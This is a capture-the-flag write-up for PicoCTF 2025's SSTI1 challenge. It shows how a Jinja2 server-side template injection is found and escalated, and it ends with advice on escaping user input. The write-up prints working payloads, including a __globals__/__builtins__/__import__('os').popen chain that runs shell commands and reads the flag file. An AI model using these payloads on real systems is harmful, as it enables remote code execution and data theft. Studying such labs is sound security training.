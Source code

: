 ```yaml
---
title: "PicoCTF 2025 - SSTI1 - Writeup"
date: "2025-08-15"
draft: false
summary: "Writeup for the SSTI1 challenge from PicoCTF 2025"
tags: ["ssti", "writeups", "ctf", "python", "jinja2"]
---
```

# CTF Writeup: SSTI1 (PicoCTF 2025)

This challenge presents a simple website where users can submit an announcement, which then gets displayed back to them. At first glance, it seems harmless, but since this is a CTF challenge called **SSTI1**, the name itself is a huge hint: *Server-Side Template Injection*.  

---

## Step 1: Inspect the Website

The page looks like this:

![Website Screenshot](./landing_page.png)  
![Form Screenshot](example_input.png)  
![Output Screenshot](example.png)  

The frontend HTML is straightforward:

```html
<!DOCTYPE html>
<html>
  <head><title>SSTI1</title></head>
  <body>
    <h1> Home </h1>
    <p>I built a cool website that lets you announce whatever you want!* </p>
    <form action="/" method="POST">
      What do you want to announce: <input name="content" id="announce"> 
      <button type="submit"> Ok </button>
    </form>
    <p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> 
      *Announcements may only reach yourself 
    </p>
  </body>
</html>
```

- No extra parameters in the request.  
- No hidden scripts or suspicious endpoints.  
- Just a text input reflected back on the page.  

So the vulnerability must be in how this input is processed.

---

## Step 2: Hypotheses

When user input is echoed back, a few classic vulnerabilities come to mind:  

1. **XSS (Cross-Site Scripting)**  
   → Would run malicious JavaScript in the browser, but that affects only the client side.  

2. **SQL Injection**  
   → Doesn’t make sense here, since we aren’t interacting with a database.  

3. **SSTI (Server-Side Template Injection)**  
   → Happens when user input is directly passed into a template engine (like Latex, Jinja2, Smarty, Twig, etc.) and rendered as code.  

Given the challenge title, option (3) is the clear candidate. I have done this once with Latex and forced it to execute a command. Maybe this will be similar.

---

## Step 3: Testing for Jinja2

We have to start with a framework. Jinja2 is the most common template engine for Python (I would say), so we will start with that. A common way to test for Jinja2 is to inject a simple expression:  

```
{{ 5*5 }}
```

If the output renders as `25`, the input is being evaluated inside a Jinja2 template.

**Bingo!** The expression evaluates, confirming a Jinja2 SSTI.

![Payload Success](./25.png)  

---

## Step 4: Exploring the Template Context

With SSTI confirmed, the next step is to explore what’s available in the rendering context. One useful trick is to look at the template’s global python variables:

```
{{ self.__init__.__globals__ }}
```

The app outputs something like:

```
# {'__name__': 'jinja2.runtime', '__doc__': 'The runtime functions and state used by compiled templates.', ...
'__builtins__': {...}, 'Macro': <class 'jinja2.runtime.Macro'>, ... }
```

This reveals access to Python internals — including `__builtins__`.  
That’s huge, because from here, we can call dangerous functions like `__import__`.

---

## Step 5: Arbitrary Code Execution

Once we have `__import__`, it’s game over. We can import Python’s `os` module and execute system commands:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

This executes `ls` on the server and returns the directory contents.  

![Shell Access](./ls.png)  

Reading the flag is just as simple:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

👉 Flag successfully retrieved.

![Flag Output](flag.png)  

---

## Step 6: Lessons Learned

This challenge demonstrates the danger of **mixing data and code**.  

- User input must never be directly passed into a template without escaping.  
- In Jinja2, the correct way to safely display user input is to **escape it**, ensuring that it’s treated purely as text rather than executable code.  

---

## Final Thoughts

What started as a plain input field turned into full server compromise with just a few payloads. This is why developers must **sanitize input** and **separate logic from presentation**.  

SSTI vulnerabilities might not be as well-known as XSS or SQL injections, but they’re just as dangerous. Especially, since they are less known.